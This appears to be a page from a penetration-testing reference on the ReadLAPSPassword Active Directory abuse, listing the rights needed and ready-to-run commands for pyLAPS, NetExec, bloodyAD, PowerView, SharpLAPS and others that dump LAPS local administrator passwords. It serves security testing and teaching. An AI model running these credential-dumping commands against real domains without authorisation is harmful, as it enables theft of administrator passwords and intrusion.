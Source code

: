 ```yaml
---
authors: 'CravateRouge, ShutdownRepo, mpgn'
category: ad
---
```


# ReadLAPSPassword

This abuse can be carried out when controlling an object that has `GenericAll` or `AllExtendedRights` (or combination of `GetChanges` and (`GetChangesInFilteredSet` or `GetChangesAll`) for domain-wise synchronization) over the target computer configured for LAPS. The attacker can then read the LAPS password of the computer account (i.e. the password of the computer's local administrator).

::: tabs

=== UNIX-like

From UNIX-like systems, [pyLAPS](https://github.com/p0dalirius/pyLAPS) (Python) can be used to retrieve LAPS passwords.

```bash
pyLAPS.py --action get -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --dc-ip "$DC_IP"
```

Alternatively, [NetExec](https://github.com/Pennyw0rth/NetExec) also has this ability. In case it doesn't work [this public module](https://github.com/T3KX/Crackmapexec-LAPS) for CrackMapExec could also be used.

```bash
# Default command
nxc ldap "$DC_HOST" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --module laps

# The COMPUTER filter can be the name or wildcard (e.g. WIN-S10, WIN-* etc. Default: *)
nxc ldap "$DC_HOST" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --module laps -O computer="target-*"
```

Impacket's ntlmrelayx also carries that feature, usable with the `--dump-laps`.

[LAPSDumper](https://github.com/n00py/LAPSDumper) is another Python alternative.

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```


=== Windows

This can be achieved with the Active Directory PowerShell module.

```bash
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

The [`PowerView`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) powershell module from PowerSploit can also be used for that purpose.

```powershell
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS) (C#) automates that process. 

```bash
SharpLAPS.exe /user:"DOMAIN\User" /pass:"Password" /host:"192.168.1.1"
```


:::


## Resources

[https://simondotsh.com/infosec/2022/07/11/dirsync.html](https://simondotsh.com/infosec/2022/07/11/dirsync.html)
